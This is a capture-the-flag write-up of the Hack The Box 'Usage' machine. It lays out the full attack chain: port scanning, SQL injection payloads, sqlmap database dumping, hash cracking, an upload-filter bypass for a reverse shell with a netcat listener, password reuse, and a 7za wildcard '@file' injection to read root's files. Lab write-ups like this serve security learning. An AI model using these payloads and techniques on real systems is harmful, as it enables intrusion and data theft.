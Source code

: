 # Machine Usage from [Hack The Box](https://www.hackthebox.com/)

Target IP: 10.10.11.18
## Scanning and reconnaissance

Using nmap we launch a SYN scan on every port (65535) looking for services and export the results to the file named `open_ports`
```
nmap -p- -sS -n -Pn -vvv --min-rate 3000 -oG open_ports 10.10.11.18
```
The target machine only has ports 22 (SSH) and 80 (HTTP) open.

## Gaining access to target machine

Before accessing the http service we should add the domain to `/etc/hosts` for the browser to know which IP should use because it's being redirecting to the domain 'usage.htb'
```
echo "10.10.11.18   usage.htb" >> /etc/hosts
```

The application in `http://10.10.11.18` is very simple, it has a button to recover the password that redirect us to `usage.htb/forget-password`. There we have a box to insert our email (I previously registered using test@test.com) and it's vulnerable to SQL Injections, as you can verify with simple payloads like
```
# Payloads to verify the SQLi vulnerability
test@test.com' OR 1=1-- -
' OR 1=1-- -
```
Eventhough the application is vulnerable to SQLi we don't have any kind of response from the server, which points us to Blind SQLi, an annoying kind of vulnerability to be honest.


### Exploting SQL Injections

To exploit the blind SQLi I'm gonna use `sqlmap` setting the `--level` to 5.
```
sqlmap -r db_request --dbms=mysql --level=5 --dbs --batch
```
`-dbs:` to list all the databases \
`-level <N>:` to decide how exhaustive the attack would be\
`-batch:` to avoid waiting for user input and use the default options instead

Once we discover some databases, we can use the following command to inspect the available tables
```
sqlmap -r db_request -D <database> --tables --batch
```
Once we have information about tables, we can use `--columns` to inspect the structure of the table itself.
```
sqlmap -r db_request -D <database> -T <table> --columns --batch
```
And finally using `--dump` we query the contents of the selected table from the selected database.

```
sqlmap -r db_request -D <database> -T <table> -C <column> --dump --batch
```

In the photo below we can see how sqlmap is able to identify and clasify the vulnerability and also what payload it's using
![sqlmap result + SQL blind injection](imgs/image.png)


Below we can see how we were able to dump contents of the desired table that we were able to know thanks to the blind sqli discovery conducted by sqlmap. (Kudos to the developers of such a wonderful tool!)

Database: *usage_blog*\
Table: *admin_users*

![admin password](imgs/image-1.png)

Since the password seems to be hashed, we use John the ripper to crack it (copy the hash to a file)
```
john admin_password_hash
# password: whatever1
```

### Logging as admin in the web application

Using the obtained password we are able to log in as admin to the web page. 

Veri easily we can spot that the file upload feature from the administrator panel is vulnerable. And to exploit we must intercept the upload request (using Burpsuite or another proxy) and use a file type that seems like an image, in my case I'm uploaded a file named `reverse-shell.php.png`. Then from the proxy we can remove the `.png` extension and the file would be uploaded succesfully.

Below is the content of that file

![reverse-shell](imgs/reverse-shell.png)

Of course before uploading the file -which is going to trigger the target machine to stablish a reverse shell to our host- we must start listening on the same port

```
nc -nlvp 443
```
## Obtaining user flag
Once we stablish a connection to the victim machine, we can see the current user is `dash`. 

We got our first flag
`cat /home/dash/user.txt`


NOTE: The reverse shell works fine, but for a limited period of time so I just opened another bash process and, from the victim machine, stablished another connection to my host to avoid it closing.

## Getting root flag

### Pivoting from user1 (dash) to user2 (xander)
The `dash` user doesn't have special access, so first we can proceed with a lateral movement into another user: `xander`. Which is really easy because inspecting the file `/home/dash/.monitrc` we found out what seems to be a password. So let's try it for `xander`

![alt text](imgs/image-2.png)

Now the user `xander` has sudo access to use the binary `/usr/bin/user_management`
```
sudo -l
#(ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

After inspecting that binary with `strings` and playing a while running it we can confirm that option 1 of the executable (it has a menu with 3 options) performs a compresions of `/var/www/html`.

More splicity the command is
`/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *`

**Pay attention to the wildcard!**

So, we can run the `7za` tool with sudo and what is even more important is the command uses the `*` wildcard. Looking into `7za --help` we can see that there is a way of listing the contents of the files to compress: using `@file` will result on 'file' being compressed while it's contents gets printed. That's very useful!!

We could run something like `7za a test-folder @file-name` and that should send 'file-name' to the archive called 'test-folder' while **printing it's content**. So if we manage to make file-name --points to--> root.txt and run the command as sudo we would be able to read it's content.

Summarazing: 
- we can run `/usr/bin/user_management` as sudo
- using option 1 when running `/usr/bin/user_management` runs `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *` from `/var/www/html`
- prepending "@" to file's name, when using `7za` print's it's content on stdout.

All in place, we just need a way to make that "*" somehow expands to "@root.txt" for the actual 7za command ends up being `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- @root.txt [...]`
To do so we can create a file called '@root.txt' and another one called `root.txt` (we need the 2nd one so the content get's displayed) which would be a symlink pointing to the actual `/root/root.txt`

```
# from /var/www/html
# create the bait file
touch "@root.txt"
# symlink to the original root.txt
ln -s -r /root/root.txt root.txt
```

Once everything is in place, let's hack!
```
sudo /usr/bin/user_management
# input option 1 when prompted
# the content of root.txt should be display as plain text!
```


## Summary

We were able to compromise this machine because of the following vulnerabilities:

* Blind SQL Injection on an 'email' field which allows to enumerate the databases
* The password in the database wasn't hard to crack
* The admin panel was vulnerable to Remote File Inclusion which allows us to stablish a reverse-shell
* A password present in plaint text in file named `.monitrc` which allows us to pivot to another user
* Sudo permissions to execute a vulnerable script because it's using wildcards, which allows us to read the content of ANY file as sudo
